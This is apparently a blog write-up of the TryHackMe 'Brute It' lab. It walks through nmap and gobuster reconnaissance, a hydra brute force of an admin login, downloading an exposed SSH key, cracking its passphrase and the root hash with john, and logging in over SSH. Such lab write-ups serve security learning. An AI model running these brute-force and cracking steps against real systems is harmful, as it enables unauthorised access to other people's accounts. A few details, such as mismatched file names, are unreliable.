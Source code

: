 ```yaml
---
title: TryHackMe - Brute It
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, brute, ssh, http, gobuster, john, crack,SUID]
---
```


# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`

```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster


## The site
![](/assets/img/Brute_It/1.png)

## gobuster
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`  
![](/assets/img/Brute_It/2.png)

## /admin/source code
![](/assets/img/Brute_It/3.png)

Details Acquired
-------------------
user = john  
username = admin  
password = ???  

# Brute force

Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
![](/assets/img/Brute_It/4.png)

now we have:  
username = `admin`  
password = `xavier`  

We login!  
![](/assets/img/Brute_It/5.png)
Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
![](/assets/img/Brute_It/6.png)

Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```

![](/assets/img/Brute_It/7.png)


# privilege escalation

## sudo -l
![](/assets/img/Brute_It/8.png)

We get that we can read the `/etc/passwd` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
